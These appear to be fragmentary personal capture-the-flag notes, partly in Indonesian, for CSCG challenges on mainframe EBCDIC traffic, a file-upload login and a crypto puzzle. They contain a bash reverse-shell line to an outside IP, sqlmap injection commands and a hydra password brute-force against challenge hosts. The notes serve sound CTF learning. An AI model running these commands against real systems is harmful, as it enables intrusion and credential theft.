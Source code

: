 ```python
text2 = data[5::]
text2 = text2[0:len(text2) - 1]
print("text2:",text2)
```
## Mainframe
```sh
iconv -l
iconv -f IBM1141 -t utf-8 mainframe.pcap
```

```
/bin/bash -i >& /dev/tcp/10.18.90.165/1338 0>&1
ncat --ssl 0c9d240db4d2697aee696c02-mainframe.challenge.master.cscg.live 31337 <&0 | tee test.txt | iconv -f IBM1141 -t utf-8
```
- dari yang saya perhatikan bahwa koneksi dari client ke server memerlukan vefikasi
### Referensi
https://thepythoncorner.com/posts/2020-04-30-working-with-ebcdic-python/
## File Upload
```

Fatal error: Uncaught mysqli_sql_exception: Connection refused in /var/www/html/db.php:9 Stack trace: #0 /var/www/html/db.php(9): mysqli_connect('127.0.0.1', 'user', 'VerySafePasswor...', 'fileuploadplatf...', 3306) #1 /var/www/html/login.php(12): require_once('/var/www/html/d...') #2 {main} thrown in /var/www/html/db.php on line 9
```

### Test
get
```sh
sqlmap -u https://c712d028acf109f6bb1cdce8-file-upload.challenge.master.cscg.live:31337/\?username\=administrator\&password\=0 -p password --level 5 —dbms=mysql
```
post
```sh
sqlmap -u "https://e73a363c03f050fa2243f3e8-file-upload.challenge.master.cscg.live:31337/login.php" --data "username=adminisatrator&password=test" -p "password" --method POST
```
bruteforce
```sh
hydra -l "administrator" -P /usr/share/wordlists/seclists/Passwords/probable-v2-top12000.txt 'e73a363c03f050fa2243f3e8-file-upload.challenge.master.cscg.live' http-post-form '/login.php:username=^USER^&password=^PASS^:F=Invalid username or password' -s 31337 -v -S
```

## Intro to Crypto 3
### Program belum selesai
#### Brute
```python

enc = '''105
147
233
7
81
145
253
56
71
153
249
```